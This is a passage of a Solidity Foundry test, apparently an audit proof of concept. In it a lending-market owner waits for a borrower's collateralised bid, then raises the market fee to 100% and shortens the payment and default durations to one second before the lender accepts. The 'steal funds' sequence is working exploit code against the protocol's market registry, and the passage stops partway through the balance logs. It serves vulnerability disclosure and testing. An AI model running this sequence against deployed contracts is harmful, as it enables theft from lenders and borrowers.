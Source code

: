 ```solidity
    }

    function testAttack() public {
        
        vm.startPrank(address(marketOwner));
        marketRegistry.createMarket(
            address(marketOwner),
            30 days, 
            10,       //_paymentDefaultDuration 
            1 days,   //_bidExpirationTime
            0,        //feePercent  <<==Fee is 0
            false,    //lenderAttest
            false,    //borrowerAttest
            "mytestURI"
        );
        vm.stopPrank();

        //Bid with collateral
        Collateral[] memory collateral = new Collateral[](1);
        Collateral memory collateral_1 = Collateral ({
            _collateralType: CollateralType.ERC20,
            _amount: 100e18, //set ollateral here
            _tokenId: 0,
            _collateralAddress: address(lendingToken)
        });
        collateral[0] = collateral_1;
        console.log("===========================BEFORE submitBid======================================");
        console.log("Borrower ERC20 balance:          ",lendingToken.balanceOf(address(borrower)));
        console.log("Lender ERC20 balance:            ",lendingToken.balanceOf(address(lender)));
        console.log("MarketOwner ERC20 balance:       ",lendingToken.balanceOf(address(marketOwner)));
        console.log("Collaterall Proxy ERC20 balance:    ",lendingToken.balanceOf(0x1F88f48585ad6754e59c03debd4502399e33Ff50)); //Beacon proxy, CollateralManager.sol `mapping(uint256 => address) public _escrows`
        vm.startPrank(address(borrower));
        tellerV2.submitBid(
            address(lendingToken), // lending token
            1, //_marketplaceId
            50e18, // principal
            365 days, // duration
            0, // interest rate 
            "", // metadata URI
            address(borrower), // receiver
            collateral
        );
        lendingToken.approve(address(collateralManager),100e18);
        vm.stopPrank();
        
        //attacker configures market to steal funds
        vm.startPrank(address(marketOwner));
        marketRegistry.setMarketFeePercent(1,10000);
        marketRegistry.setPaymentCycle(1,PaymentCycleType.Seconds,1);
        marketRegistry.setPaymentDefaultDuration(1,1);
        vm.stopPrank();

        vm.startPrank(address(lender));
        tellerV2.lenderAcceptBid(0);

        console.log("===========================AFTER lenderAcceptBid====================================");
        console.log("Borrower ERC20 balance:          ",lendingToken.balanceOf(address(borrower)));
        console.log("Lender ERC20 balance:            ",lendingToken.balanceOf(address(lender)));
```
